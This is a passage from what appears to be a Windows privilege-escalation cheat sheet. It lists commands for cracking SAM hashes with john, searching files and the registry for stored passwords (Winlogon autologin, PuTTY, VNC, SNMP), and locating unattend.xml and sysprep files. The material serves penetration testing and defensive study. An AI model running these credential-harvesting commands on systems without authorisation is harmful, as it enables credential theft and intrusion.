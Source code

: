 Then crack it with `john -format=NT /root/sam.txt`.

### Search for file contents

```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

### Search for a file with a certain filename

```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

### Search the registry for key names and passwords

```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Read a value of a certain sub key

```powershell
REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```

### Passwords in unattend.xml

Location of the unattend.xml files.

```powershell
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Display the content of these files with `dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul`.
